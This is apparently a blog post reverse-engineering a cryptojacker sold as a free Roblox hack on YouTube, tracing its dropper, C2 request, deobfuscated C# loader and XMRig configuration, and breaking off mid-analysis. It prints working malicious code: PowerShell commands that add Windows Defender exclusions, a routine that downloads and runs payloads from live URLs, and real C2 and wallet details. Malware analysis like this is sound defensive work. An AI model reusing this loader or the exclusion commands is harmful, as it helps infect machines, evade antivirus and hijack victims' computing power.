A couple months back I was watching a [vinesauce stream](https://youtu.be/SNK74ecgFKg?t=381) (very funny btw) where Joel was searching the bowels of youtube for not-so-nice software to install. After watching, I thought it'd be fun to try and find some shitware of my own to take apart.

# 'The gutter'

Seeing as I [used to poke fun at roblox](/pages/manipulating-lua-vms-1/) I thought I'd start by searching "roblox hack 2022 working" and -as per Joel's instructions- sorted by Upload Date. I quickly stumbled onto [this video](https://www.youtube.com/watch?v=W1I9ar1Z3hI).



But don't be frightened! The description has a disclaimer:
> Any hack, what you find here on the channel, does not contain a virus that could damage your PC. It can happen with menus that anti-virus protection program detects one, again this is a precaution that your anti-virus program displays. It is normal because the hacks have to get the codes out of the DLL file again and this is a normal unauthorized operation! Disable your anti-virus program before you download and unpack a hack, so that the anti-virus program does not delete hacks!

After extracting the provided rar with the password `1234` we're left with 4 files.

```sh
$ ls -R
.:
about  Setup.exe  x32.dll  x64.dll

./about:
Readme.txt

$ cat about/Readme.txt
1. Open the Setup.exe file
2. Choose Install Product in the left navigation pane and then click Start
3. Open the software
    Have a nice day! Subscribe pls
▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬

$ sha256sum Setup.exe
0bf58392439a4b57b745df4e08ea84acf6d032cd40e9ea74f9dd32057d3f8581  Setup.exe

$ file Setup.exe
Setup.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
```
> If you're interested, I've archived the rar and a download for this sample is at the bottom of this page.

## "Dad, I just tried to get free roblox hack and the family computer is on fire"

Running `Setup.exe` in a VM, nothing seemed to happen. However after running [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) and looking at the process tree we can see that things are much more interesting than they seem.


> can't believe 'SYNAPSE X CRACK ROBLOX HACK FREE FREE DOWNLOAD 2022 REAL' lied to me :(

Oh... it's a [***cryptojacker***](https://www.malwarebytes.com/cryptojacking)... lame. Looking at our process tree, 
1. Y01r058T.exe
    - Filename looks random
    - Referenced as Task24Main
    - Spawns Dllhost.exe
    - Adds Windows Defender Exclusion paths
        - `$ENV:USERPROFILE\Desktop`
        - `C:\ProgramData\Dllhost`
        - `C:\ProgramData\SystemData`
2. OPJ0QX3k.exe
    - Filename looks random
    - Ignored this payload for now
3. tqY8Jm7p.exe
    - Filename looks random
    - Ignored this payload for now
4. Dllhost.exe
    - Referenced as Task24Watch
    - Adds persistence via SCHTASKS
    - Spawns winlogson.exe
5. winlogson.exe
    - Cryptominer ([XMRig.exe](https://xmrig.com/))
    - Passed a config file `C:\ProgramData\Dllhost\config.json`
6. 4Vm64cRo.exe
    - Again, filename looks random
    - Packed Go executable
    - Installs .NET (even though the first sample is a .NET application... lol)
    - Ignored this payload for now

Looking in my Temp folder I also found a newly created file that seems to be a configuration file, `sys_rh.bin`.
> More about this later!

Since we know that winlogson.exe is a crypto miner, `config.json` must include mining pool information. However, I'll leave that for last since the rest of the malware is fairly interesting.

## But where did they come from?

Restoring my VM snapshot and re-running the payload with [Fiddler](https://www.telerik.com/fiddler/fiddler-classic) catching any web traffic, we find some interesting requests:



The first request to `http://45.15.156.31/` seems to be [a manifest](manifest.txt) of sorts. The raw request looks like

```
POST http://45.15.156.31/ HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=utf-8
User-Agent: TakeMyPainBack
Host: 45.15.156.31
Content-Length: 93
Connection: Keep-Alive
Pragma: no-cache

machineId=331ea7d1-d63d-4869-8997-455c73700aab|user&configId=55141fdba30e9c28fe0ae2e082b22897
```
> lol'd at the User-Agent

Looks like Setup.exe makes a request to the C2, and downloads a fresh copy of the next stage's payloads. One payload downloads an additional payload and then finally that payload downloads the miner.

## 'Task24Main'

Since we already generally know what Setup.exe does, I decided to focus on the payload that was obviously doing the 'important work' of setting up the crypto miner. Using ILSpy on the original binary we're greeted with this awful mess.



'Task24Main' is listed as the assembly name, however this payload is heavily obfuscated (scary!!) so I opted to try to cleanup the binary. After some googling, I found a fork of an older deobfuscator called ["de4dot-cex"](https://github.com/ViRb3/de4dot-cex). de4dot fixes a lot of the control-flow related obfuscation which honestly does the hard part for us. Throwing the resultant "-cleaned" binary back into ILSpy produces a much more understandable pseudocode.


> "-cleaned" on the left, original on the right

Hm, unfortunately we still don't know what these string constants are. After taking a look at the deobfuscation methods, it became clear that it'd be best to dump the strings dynamically.

de4dot actually includes some instructions for [dynamically dumping strings](https://github.com/de4dot/de4dot#dynamically-decrypting-strings) however I couldn't get that working with this sample so I opted for a more manual approach. Using the [DNSpyEx](https://github.com/dnSpyEx/dnSpy/releases) debugger I had to manually dump each string by setting various breakpoints on the original Task24Main payload, using our "-cleaned" pseudocode as a reference.



Now that we have a half-decent method of analyzing the payload, let's take a look at it.

## Dendalion

Task24Main is a WinForms application where a Forms class called 'Dendalion' is created in it's entrypoint. The constructor for this class looks like:

```cs
public Dendalion()
{
    _NUoUeuLffxMdLFTcbrnkw1RLahU(); // makes sure the window is hidden
    CheckSystemHardware(); // checks for vm
    SecOff(); // disables windows defender
    CreateRandomFiles(); // red herrings
    MakeBridge(); // dumps sys_rh.bin to C:\ProgramData\SystemFiles\, C:\ProgramData, C:\Users\[user]\AppData\Roaming & C:\Users\[user]\AppData\Local\Temp\

    // ???? HMM
    LDR.DAF(Crypter.Decrypt(watchlink, <Module>.smethod_4<string>(2308268466u)), <Module>.smethod_5<string>(581600440u), <Module>.smethod_4<string>(3273331201u), isexecute: true, iswatch: true);

    // another red herring
    Thread.Sleep(25000);
    UserL();
    Thread.Sleep(20000);

    // after payload is executed, exit process
    AbortProj();
}
```
> `_NUoUeuLffxMdLFTcbrnkw1RLahU()` and `CheckSystemHardware()` are uninteresting. They make sure the window is hidden and kills the process if common VM processes are detected (eg. vboxservice, vboxtray, etc.)

`SecOff()` however is a bit more interesting. Repeating our process of manually deobfuscating, the method looks like:

```cs
public static void SecOff()
{
    // This method disables windows defender by adding Exclusion Paths to the Desktop, C:\ProgramData\Dllhost & C:\ProgramData\SystemData
    try
    {
        string cipherText = <Module>.smethod_4<string>(3824795621u);

        /*
        Process.Start(new ProcessStartInfo("cmd.exe")
        {
            Arguments = @"/C chcp 1251 & powershell -Command Add-MpPreference -ExclusionPath ""$ENV:USERPROFILE\Desktop"" & powershell -Command Add-MpPreference -ExclusionPath ""C:\ProgramData\Dllhost"" & powershell -Command Add-MpPreference -ExclusionPath ""C:\ProgramData\SystemData"""
            UseShellExecute = false,
            CreateNoWindow = true,
            WindowStyle = ProcessWindowStyle.Hidden,
        });
        */
        Process.Start(new ProcessStartInfo(<Module>.smethod_2<string>(2128481835u))
        {
            Arguments = Crypter.Decrypt(cipherText, <Module>.smethod_3<string>(2347860797u)),
            UseShellExecute = false,
            CreateNoWindow = true,
            WindowStyle = ProcessWindowStyle.Hidden,
            Verb = <Module>.smethod_5<string>(3146165981u)
        });
        Thread.Sleep(3000);
    }
    catch
    {
    }
}
```

This would explain the chcp command & powershell processes. The `Add-MpPreference -ExclusionPath` command adds an exclusion path to windows defender. This is done to all of the directories that Task24Main drops its payload too (more on that later).



After this, I decided to take a look at `MakeBridge()`:

```cs
public static void MakeBridge()
{
    string text = <Module>.smethod_3<string>(3560466304u); // "sys_rh.bin"
    string text2 = <Module>.smethod_4<string>(441497119u); // "C:\ProgramData\"
    string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData); // "C:\Users\user\AppData\Roaming"
    string tempPath = Path.GetTempPath();

    // paths to store sys_rh.bin in
    string[] array = new string[4]
    {
        <Module>.smethod_1<string>(2564705867u), // "C:\ProgramData\SystemFiles\"
        text2, // "C:\ProgramData\"
        folderPath, // "C:\Users\user\AppData\Roaming"
        tempPath // "C:\Users\[user]\AppData\Local\Temp\"
    };

    for (int i = 0; i < array.Length; i++)
    {
        using FileStream stream = new FileStream(array[i] + text, FileMode.OpenOrCreate, FileAccess.ReadWrite);
        using StreamWriter streamWriter = new StreamWriter(stream);
        streamWriter.WriteLine(<Module>.smethod_3<string>(1060706641u));
        streamWriter.WriteLine(<Module>.smethod_2<string>(262256352u));
        streamWriter.WriteLine(<Module>.smethod_5<string>(347423502u));
        streamWriter.WriteLine(<Module>.smethod_5<string>(4291125391u));
        streamWriter.WriteLine(<Module>.smethod_2<string>(488318846u));
        streamWriter.WriteLine(<Module>.smethod_3<string>(3140321804u));
        streamWriter.WriteLine(<Module>.smethod_3<string>(1656669095u));
        streamWriter.WriteLine(<Module>.smethod_4<string>(2403898489u));
        streamWriter.WriteLine(<Module>.smethod_2<string>(3303012420u));
        streamWriter.WriteLine(<Module>.smethod_2<string>(4267099851u));
        streamWriter.WriteLine(<Module>.smethod_5<string>(428363068u));
        new FileInfo(array[i] + text).Attributes = FileAttributes.Hidden;
    }
}
```
> I was lazy and didn't dump the strings passed to `streamWriter.WriteLine()`

This method generates that `sys_rh.bin` file from earlier! It's placed in various spots starting from highest privileged directories down to local user files. [Looking at the generated file](sys_rh.bin), the data is encrypted with an unknown key (byte data stored as base64). After this, `LDR.DAF()` is called from the `Dendalion()` constructor, which looks like:

```cs
// LDR.DAF("https://dl.uploadgram.me/6342c0be64ba4h?raw", "C:\ProgramData\DllHost\", "dllhost.exe")
LDR.DAF(Crypter.Decrypt(watchlink, <Module>.smethod_4<string>(2308268466u)), <Module>.smethod_5<string>(581600440u), <Module>.smethod_4<string>(3273331201u), isexecute: true, iswatch: true);
```

Deobfuscating `LDR.DAF()` gives us:

```cs
public static void DAF(string link, string path, string name, bool isexecute, bool iswatch)
{
    try
    {
        // create directory
        if (!Directory.Exists(path))
        {
            Directory.CreateDirectory(path);
        }
        new DirectoryInfo(path).Attributes = FileAttributes.Hidden;

        // if (link != "")
        if (link != <Module>.smethod_2<string>(2544616314u))
        {
            Uri address = new Uri(link);
            if (File.Exists(path + name))
            {
                File.Delete(path + name);
            }

            // download file
            WebClient webClient2 = new WebClient();
            ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
            webClient2.DownloadFileAsync(address, path + name);
            new FileInfo(path + name).Attributes = FileAttributes.Hidden;
        }

        if (!isexecute)
        {
            return;
        }

        // wait until file is downloaded lol
        if (new FileInfo(path + name).Length > 20000L)
        {
            Thread.Sleep(4000);
        }
        else
        {
            Thread.Sleep(7000);
        }

        // start process
        Process process = new Process();
        ProcessStartInfo processStartInfo2 = (process.StartInfo = new ProcessStartInfo(path + name)
        {
            UseShellExecute = false,
            CreateNoWindow = true,
            WindowStyle = ProcessWindowStyle.Hidden
        });

        if (iswatch)
        {
            processStartInfo2.Verb = <Module>.smethod_4<string>(1979142315u);
        }
        process.Start();
    }
    catch
    {
    }
}
```
> I cleaned up the pseudocode for this one as it was still a bit of a mess.

`LDR.DAF()` downloads a file from a URL, renames it and stores it in a path and then starts it up in a new process. This would explain the `Dllhost.exe` process (which was spinning up the XMRig miners!)

## Dllhost.exe -> 'Task24Watch.exe'

Now that we have the 'final payload', things start to get much more interesting. The application again is WinForms app, albeit the class here is called 'Galileo'. This payload is obfuscated in the same way our Task24Main payload was. Taking a look at it's constructor 

```cs
public Galileo()
{
    _XTzBsaEo0mNKCLfXSB7E1u9bQlq();
    _FAOk3EplvOmghcsRyS67PhCD6eP();
    ConnectToBridge(); // open sys_rh.bin, generate config
    CreateFiles(); // create C:\ProgramData\SystemFiles\
    getparam();
    MNstart();

    // download and install xmrig miner
    // LDR.DAF("https://dl.uploadgram.me/631f08c8b80b9h?raw", "C:\\ProgramData\\Dllhost\\", "winlogson.exe")
    LDR.DAF(Crypter.Decrypt(linkxmr, keycode), MPath, <Module>.smethod_1<string>(3285906249u));

    // wait for the miner to start up before starting threads
    Thread.Sleep(20000);
    new Thread(Watch.StopOn).Start();
    new Thread(CheckRun).Start();

    // set file security to restrict user access
    Watch.SecureFiles();
}
```

Remember that `sys_rh.bin` file that was generated by a method called `MakeBridge()` we saw earlier? Looking at the call to `ConnectToBridge()` shows us that it opens and reads each line from that file and stores them in some interestingly named fields.

```cs
public static void ConnectToBridge()
{
    string text = <Module>.smethod_2<string>(2668717338u); // "sys_rh.bin"
    string text2 = <Module>.smethod_5<string>(4249199086u);
    string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
    string tempPath = Path.GetTempPath();
    try
    {
        if (File.Exists(FPath + text)) // @"C:\ProgramData\SystemFiles\sys_rh.bin"
        {
            string[] array = File.ReadAllLines(FPath + text); // @"C:\ProgramData\SystemFiles\sys_rh.bin"
            linklol = array[0];
            linkxmr = array[1];
            xmrpool = array[2];
            etcpool = array[3];
            ethpool = array[4];
            xmrwal = array[5];
            etcwal = array[6];
            ethwal = array[7];
            workername = array[8];
            minepassword = array[9];
            keycode = array[10];
        }
        else if (File.Exists(text2 + text))
        {
            string[] array2 = File.ReadAllLines(FPath + text); // bug lol, it only opens the file at @"C:\ProgramData\SystemFiles\sys_rh.bin"
            linklol = array2[0];
            ... (same as before)
        }
        else if (File.Exists(folderPath + text))
        {
            string[] array3 = File.ReadAllLines(FPath + text); // more bug
            linklol = array3[0];
            ... (same as before)
        }
        else if (File.Exists(tempPath + text))
        {
            string[] array4 = File.ReadAllLines(FPath + text); // even more bug
            linklol = array4[0];
            ... (same as before)
        }
    }
    catch
    {
    }
}
```

Each line from `sys_rh.bin` is set to a variable, although they aren't decrypted here. That's actually done later on. Judging from the names of each variable, we are definitely interested in them. Next import method called by our `Galileo()` constructor is `MNStart()`.

```cs
public static void MNstart()
{
    string text = <Module>.smethod_3<string>(3486648620u); // "msi.bin"
    MakeMinConfig.MakeInst(mark);
    Thread.Sleep(1000);
    Process.Start(new ProcessStartInfo(<Module>.smethod_2<string>(2169055733u)) // "cmd.exe"
    {
        Arguments = lineoptions, // @" /c chcp 1251 & C:\ProgramData\Dllhost\winlogson.exe -c config.json"
        WorkingDirectory = FPath, // @"C:\ProgramData\SystemFiles\"
        UseShellExecute = false,
        CreateNoWindow = true,
        WindowStyle = ProcessWindowStyle.Hidden
    });
    Thread.Sleep(200);
    Thread.Sleep(3000);
    if (File.Exists(FPath + text))
    {
        try
        {
            File.Delete(FPath + text);
        }
        catch
        {
        }
    }
}
```

Honestly, not sure why msi.bin is being deleted but moving on. This method calls `MakeMinConfig.MakeInst()` before spawning the miner process, which looks like:



This method makes the `config.json` file from the variables they grabbed in `ConnectToBridge()`! The last major things the constructor does is download the miner, and spawn two watch threads. `Watch.StopOn()` has a blacklist of processes that will kill the payload if one is detected.


> Yes, I was too lazy to dump the process names. sue me

The other, `CheckRun()` simply makes sure that the miner is running and calls `MNstart()` if it's not detected.



## Grabbing the mining pool from 'config.json'

```json
{
    "autosave": false,
    "cpu": {
        "enabled": true,
        "max-threads-hint": 50
    },
    "cuda": false,
    "pools": [{
        "coin": "monero",
        "url": "xmr-eu2.nanopool.org:14433",
        "user": "4AFMFCsPKzKJMvJ75wXtMxdPgp3zsTgRTj5iwFXhVmjY2DxpTMdbD8cELUvRARBmCgSCwxNC21Pt28MenLPn4BQY1Hranj4.test_monera/bardik",
        "tls": true
    }]
}
```
> "user" string is the [wallet id].[user]/[password]

Now that we have their [nanopool user account](https://xmr.nanopool.org/account/4AFMFCsPKzKJMvJ75wXtMxdPgp3zsTgRTj5iwFXhVmjY2DxpTMdbD8cELUvRARBmCgSCwxNC21Pt28MenLPn4BQY1Hranj4), let's see how many infected machines are currently mining.

